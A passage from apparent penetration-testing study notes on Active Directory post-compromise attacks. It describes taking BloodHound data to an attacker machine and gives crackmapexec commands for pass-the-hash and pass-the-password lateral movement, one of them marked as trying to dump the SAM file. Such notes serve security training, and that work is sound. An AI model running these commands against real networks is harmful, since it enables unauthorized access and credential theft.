 It will collect all data to `file.zip`. Transfer it back to attacker machine for analysis in bloodhound.

In attacker machine start `neo4j` and then `bloodhound`.
And upload data. No need to unzip files.

---
# Attacking Active Directory: Post-Compromise Attacks

*This requires some sort of credentials first cracked or hashed.*

## Pass the Hash / Password
If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks.

*updated `crackmapexec` has slightly different syntax. It may not match with below given screenshots as this was recorded before update of cme.*

### Attack Methods
```bash
crackmapexec smb 10.10.10.99 -u sUser -d DOMAIN -p Password1
crackmapexec smb 10.10.10.99 -u sUser -H sOmEntlmHash --local-auth
# trying to dump SAM file
crackmapexec smb 10.10.10.99 -u sUser -d DOMAIN -p Password1
```

For Example : 
_Credentials here will be passed to entire subnet._
![](/assets/Images-Notes-01/2022-01-08-00-49-58.png)
_crackmapexec | passthepassword attack_
